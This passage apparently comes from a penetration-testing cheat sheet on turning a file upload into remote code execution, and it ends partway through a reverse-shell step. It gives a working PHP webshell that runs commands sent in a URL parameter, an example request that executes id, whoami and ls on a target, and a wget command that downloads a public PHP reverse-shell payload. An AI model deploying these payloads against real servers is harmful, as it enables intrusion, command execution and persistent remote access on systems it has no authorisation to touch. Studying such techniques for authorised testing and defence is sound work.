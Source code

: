 1. Find the directory where the file will be store.

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

2. Try to upload a webshell like this:

{% code title="webshell.php" %}
```php
<?php
    echo system($_GET["cmd"]);
?>
```
{% endcode %}

3. Now make a request with this path to obtain RCE vuln.

```
https://vuln.site.com/uploads/webshell.php?cmd=id;whoami;ls
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell

Download the reverse shell payload.

{% code overflow="wrap" %}
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
{% endcode %}

Change this line with listener ip.
